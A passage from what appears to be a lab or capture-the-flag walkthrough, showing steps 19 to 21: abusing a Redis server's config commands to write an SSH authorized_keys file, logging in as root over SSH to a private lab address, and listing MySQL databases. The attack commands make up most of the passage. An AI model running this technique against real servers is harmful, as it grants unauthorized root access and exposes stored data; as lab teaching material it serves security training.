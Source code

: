 19. Make yourself a root login on the Redis server.
	
	```
	config set dbfilename authorized_keys
	save
	```

20. `exit` out of redis-cli, and try our SSH login.

	```bash
	ssh -i id_rsa root@10.2.2.100
	```

	![](./img/c49-img13.png)

21. Now that you're root, access the database:

	```
	mysql
	show databases;
	```
